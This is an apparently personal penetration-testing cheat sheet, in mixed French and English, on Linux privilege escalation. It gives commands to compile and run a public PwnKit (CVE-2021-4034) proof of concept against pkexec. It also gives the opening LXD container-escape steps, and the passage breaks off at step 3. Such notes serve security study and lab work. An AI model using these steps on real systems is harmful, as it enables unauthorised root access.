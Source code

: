 # POLKIT


```
pkexec --version | head -n1
```

```bash
apt list --installed | grep policykit
```


## PwnKit ( [CVE-2021-4034](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-4034)) (ver < 0.105-31)

> [!TIP]
> Necessite le setuid sur pkexec

https://github.com/arthepsy/CVE-2021-4034

```shell-session
gcc cve-2021-4034-poc.c -o poc
```

```
./poc
```


version en python -> https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py



---
# LXC / LXD

0. Unzip alpine image

```shell
unzip alpine.zip
```

1. Start the LXD initialization process. Choose the defaults for each prompt. Consult this [post](https://www.digitalocean.com/community/tutorials/how-to-set-up-and-use-lxd-on-ubuntu-16-04) for more information on each step.

```bash
lxd init
```

2. Import the local image.

```
lxc image import alpine.tar.gz --alias alpine
```

3. Start a privileged container with the `security.privileged` set to `true` to run the container without a UID mapping, making the root user in the container the same as the root user on the host.

